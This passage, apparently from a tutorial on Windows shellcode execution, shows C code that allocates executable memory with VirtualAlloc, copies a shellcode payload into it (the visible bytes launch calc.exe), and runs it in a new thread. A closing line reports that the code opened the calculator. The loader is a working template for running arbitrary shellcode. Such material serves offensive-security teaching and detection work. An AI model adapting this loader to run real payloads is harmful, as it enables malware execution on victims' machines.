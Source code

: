 ```
		"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

	int payload_len = sizeof(payload);

	LPVOID  address = (LPVOID)VirtualAlloc(0, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (address == 0) {
		printf("[*] Error allocating memory. Error: %d.\n", GetLastError());
		return -1;
	}
	printf("[*] Allocated memory in process.\n");

	RtlMoveMemory(address, payload, payload_len);
	printf("[*] Wrote memory");

	DWORD thread_id;
	DWORD* pthreadId = &thread_id;

	HANDLE hRemoteThread = CreateThread(
		NULL, //lpthreadattributes
		(SIZE_T)1024, //dwstacksize
		(LPTHREAD_START_ROUTINE)address, //lpstartaddress
		NULL, //lpvoid lpparameter
		0,
		pthreadId
	);
	if (hRemoteThread == 0) {
		printf("[*] Error creating remote thread. Error: %d.\n", GetLastError());
		return -1;
	}
	printf("[*] New thread started.\n");
	printf("New thread ID is %d.\n", thread_id);

	WaitForSingleObject(hRemoteThread, INFINITE);
	return 0;
}

```

Compiling this in x86 mode and executing it yields a successful execution of calculator.exe:
